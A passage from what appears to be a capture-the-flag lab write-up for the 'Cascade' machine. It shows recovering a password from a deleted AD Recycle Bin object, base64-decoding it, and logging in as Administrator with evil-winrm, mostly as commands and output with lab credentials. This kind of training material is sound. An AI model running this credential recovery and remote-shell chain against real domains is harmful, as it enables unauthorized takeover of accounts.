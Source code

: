 
Running this gave us the decrypted password for ArkSvc.

```console
$ mcs -out:main.exe main.cs
$ mono main.exe
w3lc0meFr31nd
```

**Privilege Escalation:**
ArkSvc can access `cascade.local` using `evil-winrm`. Additionally, ArkSvc is able to access the `AD Recycle Bin` which may contain information about the TempAdmin account - which we can query to recover information.

```console
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter 'isdeleted \
    -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
[snip]
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
[snip]
```

Decoding `cascadeLegacyPwd` gives us.

```console
$ echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d
baCT3r1aN00dles
```

We can now logon to the box using `evil-winrm` once more, to grab the root flag.

```console
$ evil-winrm -P 5985 -u Administrator -p "baCT3r1aN00dles" -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> dir ../Desktop/root.txt


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/20/2020   2:20 PM             34 root.txt
```
